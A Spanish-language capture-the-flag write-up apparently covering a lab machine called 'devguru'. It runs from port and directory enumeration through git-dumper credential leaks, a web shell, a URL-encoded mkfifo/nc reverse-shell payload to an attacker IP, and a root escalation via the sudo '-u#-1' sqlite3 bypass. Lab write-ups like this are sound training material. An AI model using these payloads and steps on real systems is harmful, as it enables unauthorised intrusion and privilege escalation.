

## Enumeración de puertos

```
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8585/tcp open  unknown
```

### Servicio web 80


#### Fuzzing web

```
❯ dirsearch -u "http://192.168.0.108/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -e php,txt,html
[...]
[17:26:13] 301 -  315B  - /themes  ->  http://192.168.0.108/themes/
[17:26:13] 200 -   12KB - /0
[17:26:13] 301 -  316B  - /modules  ->  http://192.168.0.108/modules/
[17:26:13] 200 -   18KB - /about
[17:26:14] 301 -  316B  - /storage  ->  http://192.168.0.108/storage/
[17:26:14] 301 -  316B  - /plugins  ->  http://192.168.0.108/plugins/
[17:26:15] 200 -   18KB - /About
[17:26:15] 200 -   10KB - /services
[17:26:16] 200 -   12KB - /
[17:26:16] 302 -  410B  - /backend  ->  http://192.168.0.108/backend/backend/auth
[17:26:18] 200 -   10KB - /Services
[17:26:19] 301 -  315B  - /vendor  ->  http://192.168.0.108/vendor/
[17:26:19] 301 -  315B  - /config  ->  http://192.168.0.108/config/
[17:28:17] 200 -    2KB - /artisan
CTRL+C detected: Pausing threads, please wait...
```

```
❯ ffuf -w /usr/share/wordlists/dirb/common.txt -c -t 200 -u "http://192.168.0.110/FUZZ"
[...]
.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2]
.htaccess               [Status: 200, Size: 1678, Words: 282, Lines: 53]
about                   [Status: 200, Size: 18661, Words: 977, Lines: 478]
                        [Status: 200, Size: 12669, Words: 929, Lines: 331]
0                       [Status: 200, Size: 12669, Words: 929, Lines: 331]
About                   [Status: 200, Size: 18661, Words: 977, Lines: 478]
backend                 [Status: 302, Size: 410, Words: 60, Lines: 12]
config                  [Status: 301, Size: 315, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 12719, Words: 929, Lines: 331]
modules                 [Status: 301, Size: 316, Words: 20, Lines: 10]
plugins                 [Status: 301, Size: 316, Words: 20, Lines: 10]
```


**Adminer**: Es una herramienta para administrar contenido en base de datos MySQL.  
A diferencia de `phpMyAdmin`, que solo permite la gestión de las base dedatos MySQL y MariaDB, Adminer tambien admite la gestión de otras bases de datos como PostgreSQL, SQLite, MSSQL Oracle, SimpleDB, ElasticSearch, MongoDB y Firebird.


**git-dumper**: Una herramienta para volcar un repositorio git de un sitio web.

Dento de los directorios extraidos encuentro un archivo de configuración con credenciales una base de datos.

```
❯ tree -L 1
.
├── adminer.php
├── artisan
├── bootstrap
├── config
├── index.php
├── modules
├── plugins
├── README.md
├── server.php
├── storage
└── themes
```

```
'mysql' => [
    'driver'     => 'mysql',
    'engine'     => 'InnoDB',
    'host'       => 'localhost',
    'port'       => 3306,
    'database'   => 'octoberdb',
    'username'   => 'october',
    'password'   => 'SQ66EBYx4GT3byXH',
    'charset'    => 'utf8mb4',
    'collation'  => 'utf8mb4_unicode_ci',
    'prefix'     => '',
    'varcharmax' => 191,
],
```

----

#### Análisis del hash

```
❯ hashid "\$2y\$10\$hnhKQ8hTe9b3SoZgXhBuT.HG17VvEdBXe86hEq1qdIknkcM1rbxYi"
Analyzing '$2y$10$hnhKQ8hTe9b3SoZgXhBuT.HG17VvEdBXe86hEq1qdIknkcM1rbxYi'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
```


Dentro de la interfaz de `adminer` modifico las contraseña del usuario `Frank`

```
test : $2a$10$c4b4IfTgjHPqO614kO56tOJJ2jyK4Mrl4BLfWYSAe9lP1jddETJIe
```


Con las credenciales cambiadas fue posible ingresar al panel de administración.

Inyección de codigo php en el panel




Obtenemos una web shell


### Shell como www-data

Payload: `http://192.168.0.110/?cmd=bash+-c+%22rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7C%2Fbin%2Fsh+-i+2%3E%261%7Cnc+192.168.0.107+4444+%3E%2Ftmp%2Ff%22`


```
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.110] 33542
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

### Usuario frank

Ejecucion de `LinEnum.sh` arroja un archivo de seguridad

```
[-] Location and Permissions (if accessible) of .bak file(s):
-rw-r--r-- 1 frank frank 56688 Nov 19  2020 /var/backups/app.ini.bak
-rw-r--r-- 1 root root 16 Nov 19  2020 /usr/local/bin/data/queues/notification-service/CURRENT.bak
[...]
```

Contraseña de la base de datos de `gitea`.

```
www-data@devguru:/tmp$ cat /var/backups/app.ini.bak | grep -i "passwd"
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD              = UfFPTF8C8jjxVF2m
RESET_PASSWD_CODE_LIVE_MINUTES                = 180
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD             = 
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD    = 
```

PoC : [https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/](https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/)

Se recomienda actualizar a la versión 1.13.0.

Cambio la contraseña de usuario `frank` dentro de la tabla `user`

Panel de gitea como usuario `frank`


Versión vulnerable de gitea


## Escalada de privilegios

Si sudo permite que el binario se ejecute como superusuario, no elimina los privilegios elevados y puede usarse para acceder al sistema de archivos, escalar o mantener el acceso privilegiado.

```
User frank may run the following commands on devguru:
    (ALL, !root) NOPASSWD: /usr/bin/sqlite3
```

```
frank@devguru:~/gitea-repositories/frank/test.git$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

Recursos:

[https://gtfobins.github.io/gtfobins/sqlite3/#sudo](https://gtfobins.github.io/gtfobins/sqlite3/#sudo)

[https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

**CVE: 2019-14287**: joe Vennix descubrió que si se especifica un UID de -1(o su equivalente sin firmar: 4294967295), sudo leería incorrectamente esto como 0(es decir root). Esto significa que al especificar un UID de -1 o 4294967295, puede ejecutar un comando como root, a pesar de sele impida explícitamente hacerlo. Vale la pena señalar que esto sólo funcionará si se le han otorgado permisos sudo noroot para el comando.

PoC : `sudo -u#-1 <comando>`


```
frank@devguru:~/gitea-repositories/frank/test.git$ sudo -u#-1 sqlite3 /dev/null '.shell /bin/sh'
# whoami
root
```
